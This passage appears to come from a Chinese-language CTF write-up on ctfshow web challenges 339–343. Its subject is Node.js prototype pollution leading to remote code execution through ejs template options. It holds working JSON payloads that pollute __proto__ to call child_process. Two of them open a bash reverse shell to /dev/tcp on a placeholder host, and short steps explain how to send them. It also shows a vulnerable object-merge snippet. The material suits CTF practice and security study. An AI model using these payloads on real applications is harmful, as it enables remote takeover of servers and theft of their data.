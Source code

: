```
{"constructor/prototype/outputFunctionName": "a; return global.process.mainModule.constructor._load(\"child_process\").execSync(\"xxx\"); //"}
```

先将payload在login界面的post-body部分

post访问url/api就可以反弹shell了(一定要post)

![image-20220419210414069](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204192105722.png)

###  web340

不同之处

```js
var flag='flag_here';
var user = new function(){
  this.userinfo = new function(){
    this.isVIP = false;
    this.isAdmin = false;
    this.isAuthor = false;     
  };
}
utils.copy(user.userinfo,req.body);
if(user.userinfo.isAdmin){
  res.end(flag);
}
```

![image-20220419210549816](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204192105933.png)

需要上跳两级才能到`object`

所有payload

```js
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/4567 0>&1\"')"}}}
```

###  web341

预期解ejs rce
payload:

```
{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/4567 0>&1\"');var __tmp2"}}}
```

然后访问界面

###  web342，343

**jade原型链污染**
